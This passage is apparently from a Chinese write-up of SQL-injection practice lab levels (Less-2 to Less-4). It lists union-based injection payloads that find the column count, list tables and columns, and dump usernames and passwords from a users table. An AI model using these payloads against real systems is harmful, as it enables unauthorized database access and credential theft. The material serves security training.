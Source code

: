 - 输入`payload:?id=-1 and 1=2--+`无回显

所以判断这个查询代码使用的是整数。所以就是将后面多余的代码通过--+注释掉就好

##### 获取数据方式

- 通过union联合查询注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=-1 union select 1,2,3--+`
- 获取数据库`payload:?id=-1 union select 1,database(),3--+`
- 爆数据表`payload:?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+`
- 爆users表的数据字段`payload：?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1 union select 1,group_concat(username,'~',password),3 from users--+`username和password中间使用~来分隔

## Less-3

##### 注入类型

字符型回显注入`')'`

##### 注入点

- 输入`payload:?id=1'--+`页面回显报错![image-20201022202337717](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210419100228.png)

- 根据报错添加')'闭合，输入`payload:?id=1') --+`回显正常

所以判断在后面加`')`来闭合注入

##### 获取数据方式

- 通过union联合查询注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=-1') union select 1,2,3--+`
- 获取数据库`payload:?id=-1') union select 1,database(),3--+`
- 爆数据表`payload:?id=-1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+`
- 爆users表的数据字段`payload：?id=-1') union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1') union select 1,group_concat(username,'~',password),3 from users--+`username和password中间使用~来分隔

## Less-4

##### 注入类型
